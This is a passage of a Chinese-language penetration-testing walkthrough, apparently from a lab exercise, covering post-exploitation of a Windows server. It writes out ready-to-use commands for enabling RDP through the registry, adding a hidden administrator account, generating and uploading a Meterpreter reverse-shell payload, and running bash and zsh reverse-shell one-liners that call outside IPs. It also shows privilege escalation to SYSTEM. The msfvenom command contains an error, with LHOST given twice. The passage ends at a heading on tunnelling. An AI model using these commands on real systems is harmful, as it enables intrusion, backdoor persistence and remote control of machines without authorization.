

> **当前的用户为：administrator，可以发现并没有3389端口**
>
> ```nginx
> # 通过以下命令手动开启3389端口
> 
> # 执行此命令后，将会修改注册表中的 fDenyTSConnections 键值，将其设置为 0，表示允许远程桌面连接。
> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
> ```



> **成功开启3389端口，但是目前只知道账号，不知道密码，无法直接远程登录到服务器**
>
> **那么可以添加用户，因为当前用户的权限很高**
>
> ```nginx
> # 添加用户
> net user chat P@ssw0rd123 /add
> 
> # 添加管理源权限
> net localgroup administrators chat /add
> 
> # 测试用户是否添加成功
> net user chat
> ```



> **然后登录远程桌面，但是登录失败，服务器设置了3389端口只能本地链接**
>
> 此时思路一般如下：
>
> 1. **反弹一个msf的shell回来，尝试关闭防火墙**
> 2. **使用cs生成木马然后进行远程登录**
> 3. **尝试使用隧道连接3389**

#### msf反弹shell

```nginx
# 使用msfvenom生成payload文件，使用蚁剑上传到win7
# 命令格式：msfvenom -p windows/<payload类型> LHOST=<攻击者IP> LPORT=<监听端口> -f <输出格式> > <保存路径\文件名>

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.64.131 LHOST=8888 -f exe > shell.exe

# 然后将生产的.exe文件使用蚁剑上传到服务器中

# 使用kali开启监听端口
msfconsole
use exploit/multi/handler 
set payload/windows/x64/meterpreter/reverse_tcp
options
set LHOST 192.168.64.131
set LPORT 8888
exploit

# 然后将生成的shell.exe文件通过蚁剑上传到服务器中，并执行
shell.exe

```

```nginx
nc -lvnp 20000
bash -i >& /dev/tcp/112.124.52.200/20000 0>&1
zsh -c 'zmodload zsh/net/tcp && ztcp 192.168.64.131 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

```

**基础提权**

```nginx
meterpreter > getuid
Server username: GOD\Administrator

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

# 成功提权至最高权限
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

**开启远程端口**

```nginx
# 使用以下命令
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20230814142959_default_192.168.64.130_host.windows.cle_953520.txt

# 其中：/home/kali/.msf4/loot/20230814142959_default_192.168.64.130_host.windows.cle_953520.txt
# 这个文件用来关闭远程连接
run multi_console_command -r 文件地址
```

**成功远程连接到系统**


##### 隧道连接3389

